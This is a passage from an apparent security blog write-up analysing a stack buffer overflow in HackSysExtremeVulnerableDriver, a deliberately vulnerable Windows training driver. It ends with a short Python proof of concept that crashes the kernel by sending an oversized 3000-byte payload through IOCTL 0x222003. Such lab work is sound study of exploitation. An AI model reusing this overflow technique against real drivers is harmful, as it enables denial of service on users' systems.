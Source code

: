 ``` cpp
```

In the `TriggerBufferOverflowStack` function, the first important thing
to notice is that a `memset(&KernelBuffer, 0, 800h)` call is done:

<div class="imgblock">

![TriggerBufferOverflowStack](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330907/blog/hevd-dos/trigger1_c4fsed.webp)

</div>

This indicates that the buffer is `800h` or `2048` bytes long.

In the end of `TriggerBufferOverflowStack`, a call to
`memcpy(&KernelBuffer, &UserBuffer, SizeOfUserBuffer)` is performed,
which is a classic example of buffer overflow because we control both
the `UserBuffer` data and the `SizeOfUserBuffer` value:

<div class="imgblock">

![TriggerBufferOverflowStack](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-dos/trigger2_ft4sgf.webp)

</div>

Great, it means that if we wanted to overflow the `KernelBuffer`
variable, we should inject a payload with more than 2048 bytes, using
the `IOCTL` code `0x222003`. Let’s create our exploit:

``` python
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow DoS.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-dos/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
```
